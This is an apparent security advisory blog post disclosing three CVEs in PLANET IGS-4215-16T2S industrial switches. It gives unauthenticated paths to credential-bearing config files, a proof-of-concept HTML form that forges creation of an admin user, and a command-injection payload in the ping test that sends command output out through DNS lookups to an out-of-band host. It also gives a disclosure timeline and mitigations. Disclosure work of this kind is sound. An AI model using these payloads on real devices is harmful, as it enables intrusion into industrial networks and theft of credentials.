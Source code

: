 ```yaml
---
layout: post
title: "CVE-2024-2740, CVE-2024-2741, and CVE-2024-2742. Critical Vulnerabilities Discovered in PLANET IGS-4215-16T2S Industrial Switches"
date: 2025-02-12
categories: [security, research]
tags: [vulnerabilities, network-security, planet-technology, industrial-switches]
---
```


Designed to be installed in heavy industrial demanding environments, the IGS-4215-16T2S / IGS-4215-16T2S-U is the new member of PLANET Industrial-grade, DIN-rail type L2/L4 Managed Gigabit Switch family to improve the availability of critical business applications. It provides IPv6/IPv4 dual stack management and built-in L2/L4 Gigabit switching engine along with 16 10/100/1000BASE-T ports, and 2 extra 100/1000BASE-X SFP fiber slots for data and video uplink. The IGS-4215-16T2S / IGS-4215-16T2S-U is able to operate reliably, stably and quietly in any hardened environment without affecting its performance. It comes with operating temperature ranging from -40 to 75 degrees C in a rugged IP30 metal housing.

![](/img/planet.jpg)

Industrial networking equipment plays a crucial role in modern infrastructure, connecting and controlling critical systems across manufacturing plants, energy facilities, and smart city deployments. The PLANET IGS-4215-16T2S is a managed industrial switch designed for these demanding environments, featuring 16 10/100/1000T ports and 2 100/1000X SFP ports, making it a popular choice for industrial applications requiring reliable Ethernet connectivity.

During a recent security assessment at IOActive, I had the opportunity to analyze this device from a security perspective. The IGS-4215-16T2S comes with features like VLAN support, Quality of Service (QoS), and various management interfaces, including a web-based administration panel. However, our investigation revealed several concerning security vulnerabilities that could potentially compromise not just the device itself, but the entire industrial network it's connected to.


## Unauthenticated Access to Backup Files (CVE-2024-2740)

### Description
The first and most critical vulnerability discovered carries a HIGH severity rating. While the device's administrative web interface requires authentication for most operations, we found that the session verification mechanism failed to protect several critical system resources.

The device stores various configuration and backup files in predictable paths within the `/tmp/` directory, including: 

* `/tmp/ram.log`
* `/tmp/running-config.cfg`
* `/tmp/backup-config.cfg`

What makes this particularly concerning is that these files contain sensitive information, including device credentials, and can be accessed without any authentication.

### Impact
An unauthenticated attacker could:
- Access complete device configurations
- Extract stored usernames and passwords
- Potentially compromise the entire industrial network
- Gain persistent access to the device and its management features


## CSRF in Administrative User Creation (CVE-2024-2741)

### Description
The second vulnerability, rated as MEDIUM severity, enables Cross-Site Request Forgery (CSRF) attacks that could lead to unauthorized creation of administrative users without the legitimate administrator's knowledge.

The issue stems from several security oversights:
1. No CSRF tokens implementation to protect sensitive actions
2. Acceptance of GET requests for operations that should be POST-only
3. Lack of re-authentication requirements for critical actions like user creation


### Proof of Concept
The vulnerability can be exploited using a simple HTML form:

```html
<form action="https://[DEVICE-IP]/cgi-bin/dispatcher.cgi">
    <input type="hidden" name="usrName" value="test" />
    <input type="hidden" name="usrPassType" value="1" />
    <input type="hidden" name="usrPass" value="ioactive" />
    <input type="hidden" name="usrPass2" value="ioactive" />
    <input type="hidden" name="usrPrivType" value="15" />
    <input type="hidden" name="cmd" value="525" />
    <input type="submit" value="Submit request" />
</form>
```


### Impact

An attacker could:
- Create new administrative users without authorization
- Gain persistent access to the device
- Execute malicious actions appearing as legitimate user activity
- Maintain long-term unauthorized access even after the initial compromise is detected

## Authenticated Remote Code Execution (CVE-2024-2742)

### Description
The third vulnerability discovered, rated as LOW severity, affects the Ping Test functionality located in the device's diagnostic tools (Maintenance -> Diagnostic -> Ping Test -> IP Address). The issue stems from inadequate input sanitization in the ping test function, which could allow an authenticated attacker to execute arbitrary commands on the device.

### Proof of Concept

The vulnerability can be exploited by injecting commands into the ping test functionality. For demonstration purposes, we used DNS requests to exfiltrate sensitive system information:

```bash
;ping `uname`.subdomain.com
```

When this payload is entered into the Ping Test functionality, the device:
1. Executes the `uname` command
2. Uses the output as part of a domain name
3. Attempts to ping the resulting domain name

This resulted in DNS queries being made to domains like:
- `Linux.zoraoperl8y4x71u2jb3rbopjgp6dv.oastify.com`
- `root.zoraoperl8y4x71u2jb3rbopjgp6dv.oastify.com`

These DNS queries confirmed that:
- The system is running Linux
- The web application is running with root privileges

### Impact

An authenticated attacker could:
- Execute arbitrary commands on the device
- Gather sensitive system information
- Potentially compromise the entire device
- Use the device as a pivot point for further network attacks

## Timeline and Resolution

The vulnerability was discovered on September 29, 2022, and reported to PLANET Technology on March 29, 2023. The manufacturer released a firmware update (version 1.305b231218) on December 13, 2023, that addresses these vulnerabilities.


## Recommendations

For network administrators using these devices, we recommend:

1. Immediately upgrade to the latest available firmware
2. Implement network segmentation to isolate these devices
3. Actively monitor access to these equipments
4. Consider implementing additional security controls at the network level


## Conclusion

These vulnerabilities highlight the ongoing challenges in industrial device security. Basic security controls like session verification and CSRF protection should be standard features in any networked device, especially those deployed in critical industrial environments.

This research underscores the importance of regular security assessments for industrial network equipment, as even seemingly basic vulnerabilities can have significant implications for operational technology environments.

Find all the details of this advisory on [IOActive's Blog](https://info.ioactive.com/acton/attachment/34793/f-67b1aed6-db74-4efa-82f3-042001c778cb/1/-/-/-/-/IOActive%20Security%20Advisory%20-%20PLANET%20Networking%20-%20Vulnerabilities%20Identified.pdf)
